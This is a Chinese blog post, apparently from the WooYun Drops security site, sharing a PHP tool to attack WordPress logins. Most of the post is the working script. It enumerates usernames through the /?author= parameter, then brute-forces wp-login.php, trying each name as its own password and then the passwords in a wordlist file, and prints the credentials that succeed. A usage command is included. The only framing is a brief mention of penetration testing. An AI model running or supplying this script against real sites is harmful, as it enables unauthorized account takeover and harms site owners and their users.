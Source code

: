 # 跑 wordpress 用户密码脚本

2013/09/17 15:04 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章") | 占个座先 | 捐赠作者

在做渗透测试的时候，有时候会遇到一个 wordpress 博客，如果版本比较新，插件也没有漏洞的话，可以爆破用户名密码来尝试下。

大脑混沌情况下写的，有 bug 欢迎提出，由于是 php 的所以跑起来比较慢，下次发包还是调用命令结合 hydra 来爆破。

原理是通过 URL `/?author=` 遍历获取用户名，然后先跑用户名与密码相同的用户，再调用同目录下 pass.txt 中的密码文件进行爆破。

默认获取前 10 个用户，可自行修改。

使用方法：

```
php wordpress.php http://www.test.com 
```

```
<?php

set_time_limit(0); 
$domain = $argv[1];

//获取用户名
for ($i=1; $i <= 10; $i++) {

    $url = $domain."/?author=".$i;
    $response = httprequest($url,0);
    if ($response == 404) {
        continue;
    }
    $pattern = "/author\/(.*)\/feed/";
    preg_match($pattern, $response, $name);
    $namearray[] = $name[1];
}

echo "共获取用户".count($namearray)."名用户\n";

echo "正在破解用户名与密码相同的用户：\n";

$crackname = crackpassword($namearray,"same");

$passwords = file("pass.txt");

echo "正在破解弱口令用户：\n";

if ($crackname) {
    $namearray = array_diff($namearray,$crackname);
}

crackpassword($namearray,$passwords);

function crackpassword($namearray,$passwords){
    global $domain;
    $crackname = "";
    foreach ($namearray as $name) {
        $url = $domain."/wp-login.php";
        if ($passwords == "same") {
            $post = "log=".urlencode($name)."&pwd=".urlencode($name)."&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=".urlencode($domain)."%2Fwp-admin%2F&testcookie=1";
            $pos = strpos(httprequest($url,$post),'div id="login_error"');
            if ($pos === false) {
                echo "$name $name"."\n";
                $crackname[] = $name;
            }
        }else{
            foreach ($passwords as $pass) {
                $post = "log=".urlencode($name)."&pwd=".urlencode($pass)."&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=".urlencode($domain)."%2Fwp-admin%2F&testcookie=1";
                $pos = strpos(httprequest($url,$post),'div id="login_error"');
                if ($pos === false) {
                    echo "$name $pass"."\n";
                }
            }
        }
    }
    return $crackname;
}

function httprequest($url,$post){
    $ch = curl_init(); 
    curl_setopt($ch, CURLOPT_URL, "$url"); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false); 
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION,1);

    if($post){
        curl_setopt($ch, CURLOPT_POST, 1);//post 提交方式
        curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
    }

    $output = curl_exec($ch); 
    $httpcode = curl_getinfo($ch,CURLINFO_HTTP_CODE);
    curl_close($ch);

    if ($httpcode == 404) {
        return 404;
    }else{
        return $output;
    }
}
?>

```

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：

![](img/img5_u108_png.jpg)

### 相关日志

*   [mitmproxy 中 libmproxy 简单介绍](http://drops.wooyun.org/tips/2943)
*   [用 Burpsuite 来处理 csrf token](http://drops.wooyun.org/tips/2460)
*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [Burp Suite 使用介绍（二）](http://drops.wooyun.org/tools/1629)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)
*   [各种环境下的渗透测试](http://drops.wooyun.org/tips/411)